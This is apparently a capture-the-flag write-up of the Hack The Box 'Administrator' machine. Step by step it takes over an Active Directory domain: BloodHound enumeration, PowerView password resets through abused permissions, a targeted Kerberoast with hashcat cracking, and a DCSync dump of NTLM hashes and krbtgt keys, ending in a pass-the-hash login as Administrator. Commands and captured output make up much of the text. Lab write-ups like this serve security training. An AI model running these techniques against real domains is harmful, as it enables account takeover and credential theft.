

6 minutes
HTB: Administrator
Overview
At machine’s deploying HTB gives us credentials:
Olivia:ichliebedich
Port Scanning
The Nmap scan was initiated to enumerate open ports, services, and potential vulnerabilities on the target system, administrator.htb (10.10.11.42).
# Nmap 7.94SVN scan initiated Sat Nov 16 08:09:44 2024 as: /usr/lib/nmap/nmap --privileged -sC -sV -A -T4 -o scan 10.10.11.42
Nmap scan report for administrator.htb (10.10.11.42)
Host is up (0.045s latency).
Not shown: 988 closed tcp ports (reset)
PORT STATE SERVICE VERSION
21/tcp open ftp Microsoft ftpd
| ftp-syst:
|_ SYST: Windows_NT
53/tcp open domain Simple DNS Plus
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-11-16 20:10:38Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2024-11-16T20:10:57
|_ start_date: N/A
|_clock-skew: 7h00m45s
TRACEROUTE (using port 143/tcp)
HOP RTT ADDRESS
1 43.65 ms 10.10.14.1
2 43.87 ms administrator.htb (10.10.11.42)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Initial Access
Try to login into the machine using olivia credentials and evil-winrm:

Navigate to C:\Users and list users:
*Evil-WinRM* PS C:\Users> dir
Directory: C:\Users
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 10/22/2024 11:46 AM Administrator
d----- 10/30/2024 2:25 PM emily
d----- 11/16/2024 12:20 PM michael
d----- 11/16/2024 12:19 PM olivia
d-r--- 10/4/2024 10:08 AM Public
We can see here all system’s users listed. Let’s use BloodHound to scan the entire AD environment generating some .json files.
┌──(kali㉿kali)-[~/HTB/Administrator]
└─$ bloodhound-python -c All -u olivia -p 'ichliebedich' -d administrator.htb -ns 10.10.11.42
These JSON files contain structured data that represent various aspects of the AD environment, including relationships between users, groups, computers, and permissions.

BloodHound
Start neo4j and BloodHound Tool and import the downloaded .json files:
neo4j start
-----------
bloodhound
Login to neo4j DB with your credentials:
Then upload all .json files generated by BloodHound to visualize the data:

I used this blog post : BloodHound Active Directory to learn how to use BloodHound for privilege escalation and permissions abuse:

After importing the json files i followed the below steps:
-
Searching for OLIVIA@ADMINISTRATOR: This indicates that you are looking for a user account named “Olivia” in the “Administrator” domain. The format “OLIVIA@ADMINISTRATOR” suggests that Olivia is part of a domain called “ADMINISTRATOR.”
-
Going under OUTBOUND OBJECT CONTROL: This refers to a specific section within BloodHound that shows the permissions a user has to control other objects (like users, groups, or computers) in Active Directory. “Outbound” typically means the permissions that the user can exert over other objects.
-
Running the query Transitive Object Control: This means you are executing a query that retrieves all permissions Olivia has on other objects, including those granted through group memberships (transitive permissions).
-
We can see all Olivia’s permissions: This implies that after running the query, you can view all the permissions that Olivia has across the Active Directory environment.
Running this query we can see that Olivia has *Generic ALL permissions on MICHEAL

And MICHEAL has ForceChangePassword on BENJAMIN
Lateral Movement
We have to gain access to MICHAEL@HTB for first abusing permissions. For this task i served of The tips provided by BloodHound:

Login into Olivia using evil-winrm and follow the steps below:
# Step 1: Create a secure string for Olivia's password
$SecPassword = ConvertTo-SecureString 'ichliebedich' -AsPlainText -Force
# Step 2: Create the PSCredential object for Olivia
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\Olivia', $SecPassword)
# Step 3: Create a secure string for the new password you want to set for micheal
$UserPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
# Step 4: Set micheal's password using Olivia's credentials
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred

WARNING: to use Set-DomainUserPassword you need to clone PowerView.ps1 from your attacker machine:
*Evil-WinRM* PS C:\Users\olivia\Documents> Invoke-WebRequest -Uri http://10.10.14.218:8888/PowerView.ps1 -OutFile "PowerView.ps1"
*Evil-WinRM* PS C:\Users\olivia\Documents> Import-Module .\PowerView.ps1
If the command succeded try to login with new michael’s credentials in smb:
Lateral Movement 2
Now we can login into Michael trough evil-winrm and the password we’ve setted:
As previous, follow the steps indicated in BloodHound about the privileges Micheal have on Benjamin:
So replicate the commands below on michael’s shell trough evil-winrm:
#Command1
$SecPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
#Command2
$Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\michael', $SecPassword)
#Command3
$UserPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force
#Command4
Set-DomainUserPassword -Identity administrator\benjamin -AccountPassword $UserPassword -Credential $Cred
With this credentials i tried to login into FTP:

Download this file which is psafe3 format, use pswafe2john to convert into a crackable hash:
The output of john for the provided hash is: tekieromucho, so open the databse file with PasswordSafe:
Use this password to logiin into emily trough evil-winrm:
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb

userflag:66e0e43e********
Privilege escalation
Go back in BloodHound and analyze Emily’s permissions in the AD environment:

Emily can perform permission abuse on Ethan user, trough the process described by BloodHound:
Targeted Kerberoast Attack Steps
-
Authenticate to the Domain Controller:
- If not running as
EMILY@ADMINISTRATOR.HTB, create a PSCredential object:$SecPassword = ConvertTo-SecureString 'asd1234' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('ADMINISTRATOR.HTB\emily', $SecPassword)
- If not running as
-
Set the Service Principal Name (SPN):
- Use
Set-DomainObjectto set the SPN:Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
- Use
-
Retrieve the SPN Ticket:
- Use
Get-DomainSPNTicketto get the ticket:Get-DomainSPNTicket -Credential $Cred harmj0y | fl
- Use
-
Crack the Hash:
- The recovered hash can be cracked offline using your preferred tool.
-
Cleanup the Service Principal Name:
- Remove the SPN with
Set-DomainObject:Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname
- Remove the SPN with
In alternative this operation is performable in a easier way through Kerberoast:

┌──(targetedKerberoast-PLNnu4yz)─(kali㉿kali)-[~/HTB/Administrator/targetedKerberoast]
└─$ python3 targetedKerberoast.py -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$5a4d28a476b4656432ecdb37671cfed3$8e94e930833c4901b8ede4acb176e1e95060d7ee357e7307429e52f71004e6c2cd2c394c9adc2cef16939914ffbe77020879849b20fa99c9c6047bed4d4a2b9fb88f5dce1c28afe2953fd70432f41961fbec3cad41455fdbf6d772c0df91779a7e6135ac1bbb37808403674cade95546ac8e1dbc102ded1e5848c84e77146dc6618b07b14b5d9735d0e7cc45fe177b41d5fd06c7b04f5ee6a064e39323cf1dd673558347506fe6d5eea84ae6cc96b38de82de08cab319fd85f386d1d1d96c813f95c6ae3768b43e918f71336b44e03452b2679b1ca9341b30b62f342a08d7b934e96bdbc24871704e2104da0b24ca6bcaacf284ba635525f51d062e4eba017cb2333634558129070e25c4a169f8cd2e349c4696cce541b5aa0af56ec1ac36f9013b6496b2ae7756f437502450d0eb906ce6e2e960dd014cf19f8f04d69f22069e21e200d0900b4fc56577dbec299a31987ba1a61b6751cfb2a1e32d2439d9f2f075debb1e5b600d8af67a0f9603483c5b6fb9682c8314a4ea63f5cb55dd904c527005adfbc9bc6db2c1f1cd3cc0aeca7731db371e9be45900eb51162337ec218fc3296c88bf6a1f56887103c24bfb33509fa94575f2ce3cffb73ddb4cdc4c9216142f8ee77187cbbe84efab4d8d882e965fed0a21aa3f8060f5f11d547123cb69f8488bb7630bb4ad4652f4bd0f200ad3872c8bca2dbec880470a58e545c8ffb041b7839dc49df10e23a28cea96a9761e39e6f343a1f5e9faf547e10f936e1af4dd82beec0bacddc736959a480cc93cec3ff61dd69a4e80b1f6637ffab82774692c6393000e99e7c84841263a84c842f5e51c725d12dab82a6e836872ad435f762d5c462045fd1c6eeebc150af95d87f87530cc545f4f40f7594d7448e00977ba9a04f9ac6329d2c05b334de574cd56a5988fc53d644870214b98d740d13f8c13eb2972840a7c908d4cea13535ce2787f9ceb9c6201d75125c076e14d4f013fcfdb0d07a0af614770e467eb30d09b97be6a52fedccbc9157eb51dd33fe423376606ac0ab856d439bd24009e97e8f0ac09fff4f62d589106c3f211bd903a9f025b1127ee3eb6325d54551ee4f94ec1294b44a2810cefa7c2360ba0028eb0736edefbaec82f15986974957af0101410f5a33138c6a6cf5bba694b463377470156a5c9cb49daded800a6aa0d61fa60658c8a64cd3ec1d026c3646831818daa426a316eb77b5d8497adc8c09b74989ff45990c77abe605f607617e7431cb593171d68094add4f46b10f70fe4398877e1d581b3d7f5caa305b20b1088aecd3469a5a6439954077e2a7f5169f2508bfdfa9ab7924e85896708c999a4ec06ce2d811fd3b4350bcde0d2c0257bb5889a6c75cf206ab594022e257cf4dc51ccb5b0a33600e7cdae0179f94af1b132d0b4e7f75b9dba6c7dd42203c2f45820061c204d4ac090f9d03b5c975b90
From hashcat we retrieved that ethan’s password is limpbizkit:
hashcat (v6.2.6) starting in autodetect mode
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$....:limpbizkit
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator....b41be3
Time.Started.....: Fri Nov 22 23:27:47 2024 (0 secs)
Time.Estimated...: Fri Nov 22 23:27:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 870.9 kH/s (1.17ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 6144/14344385 (0.04%)
Rejected.........: 0/6144 (0.00%)
Restore.Point....: 4608/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Go back again on bloodhound and check the status of ethan:

DCSync permissions is abusable, consult this post DCSync Attack , so let’s try with Impacket-SecretsDump :
┌──(kali㉿kali)-[~/HTB/Administrator/targetedKerberoast]
└─$ impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:7bbaa07b15a7a7695e673f201df89dcf:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
-----------------------------------
[*] Cleaning up...

Use Administrator’s to login trough evil-winrm:
evil-winrm -i 10.10.11.42 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
rootflag:233992c6cab2f94************
1182 Words
2024-11-26 01:00